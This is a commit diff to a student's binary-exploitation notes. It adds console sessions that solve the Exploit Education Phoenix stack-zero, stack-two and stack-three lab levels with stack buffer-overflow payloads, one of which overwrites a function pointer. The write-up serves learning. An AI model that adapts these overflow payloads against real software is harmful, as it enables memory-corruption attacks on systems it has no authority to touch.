

Before and after one commit to Anjalihere/CSOC_24, a Markdown page: Week_4 /binary_exploitation.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Week_4 /binary_exploitation.md
+++ b/Week_4 /binary_exploitation.md
@@ -48,6 +48,11 @@ int main(int argc, char **argv) {
 
   exit(0);
 }
+```
+```console
+user@phoenix-amd64:/opt/phoenix/amd64$  python -c "print 'B'*100" | ./stack-zero
+Welcome to phoenix/stack-zero, brought to you by https://exploit.education
+Well done, the 'changeme' variable has been changed!
 ```
 
 # Stack-One
@@ -164,6 +174,14 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
+```console
+user@phoenix-amd64:/opt/phoenix/amd64$ ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"')
+user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation
+user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two
+Welcome to phoenix/stack-two, brought to you by https://exploit.education
+Well done, you have successfully set changeme to the correct value
+```
+
 
 # Stack-Three
 > Stack Three looks at overwriting function pointers stored on the stack.
@@ -224,7 +242,14 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
-
+```console
+user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
+00000000004007c4 <complete_level>:
+user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\xc4\x07\x40"' | ./stack-three
+Welcome to phoenix/stack-three, brought to you by https://exploit.education
+calling function pointer @ 0x4007c4
+Congratulations, you've finished phoenix/stack-three :-) Well done!
+```
 # Stack-Four
 
 > Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).
````
Also changed, not shown: other parts of Week_4 /binary_exploitation.md (+5 -0 lines).
